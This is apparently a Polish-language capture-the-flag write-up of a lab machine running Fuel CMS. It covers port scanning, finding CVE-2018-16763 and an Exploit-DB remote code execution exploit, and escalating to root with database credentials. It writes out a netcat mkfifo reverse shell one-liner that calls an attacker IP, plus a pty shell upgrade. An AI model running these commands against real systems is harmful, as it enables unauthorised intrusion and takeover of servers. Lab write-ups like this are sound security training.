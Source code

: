 
## IP maszyny:
10.10.138.241

### Sprawdzanie połączenia
┌──(kali㉿kali)-[~]
└─$ ping -c 5 10.10.138.241                                                                                  
PING 10.10.138.241 (10.10.138.241) 56(84) bytes of data.
64 bytes from 10.10.138.241: icmp_seq=1 ttl=63 time=143 ms
64 bytes from 10.10.138.241: icmp_seq=2 ttl=63 time=49.2 ms
64 bytes from 10.10.138.241: icmp_seq=3 ttl=63 time=83.2 ms
64 bytes from 10.10.138.241: icmp_seq=4 ttl=63 time=70.2 ms
64 bytes from 10.10.138.241: icmp_seq=5 ttl=63 time=57.2 ms

--- 10.10.138.241 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4040ms
rtt min/avg/max/mdev = 49.221/80.475/142.526/33.114 ms

### Skanowanie portów: 

┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sC 10.10.138.241           
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-09-23 06:39 EDT
Nmap scan report for 10.10.138.241
Host is up (0.082s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds

### Sprawdzanie co jest pod podanym adresem IP: 

![](20230923123800.png)


![](20230923124322.png)

![](20230923124415.png)

Dane do logowania mogą się też znajdować się w tym katalogu: 

"hange the database configuration found in **fuel/application/config/database.php** to include your hostname (e.g. localhost), username, password and the database to match the new database you created."

![](20230923132700.png)

## Wyszukiwanie exploitów

![](20230923125003.png)

Po analizie wyników wyszukiwania: 

https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-16763

https://www.exploit-db.com/exploits/50477

Wybieram: 

Fuel CMS 1.4.1 - Remote Code Execution (3) 

![](20230923125830.png)


![](20230923130417.png)

Zdobyłem shell'a teraz muszę zdobyć reverse shell. 
Na nowej karcie włączam nasłuch: 

![](20230923130910.png)

Na poniższych stronach i trochę drogą prób i błędów udało mi się znaleźć działającą komendę: 

https://gist.github.com/sckalath/67a59eb4955f1f9aedde

https://saucer-man.com/reverse/?ip=10.8.128.242&port=4444


## rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.128.242 4444 >/tmp/f


![](20230923131658.png)

Komendą jak z pokoju Thompson robię sobie lepszego shella:

### python3 -c 'import pty; pty.spawn("/bin/bash")'

![](20230923132254.png)

Po przeszukaniu dostępnych folderów znajduję pierwszą flagę: 

![](20230923132426.png)

Wchodzę do katalogu config o którym pisałem na początku i w pliku database.php są następujące informacje: 

![](20230923132935.png)

Udało się zalogować na konto root i zdobyć drugą flagę: 

![](20230923133118.png)


![](20230923133217.png)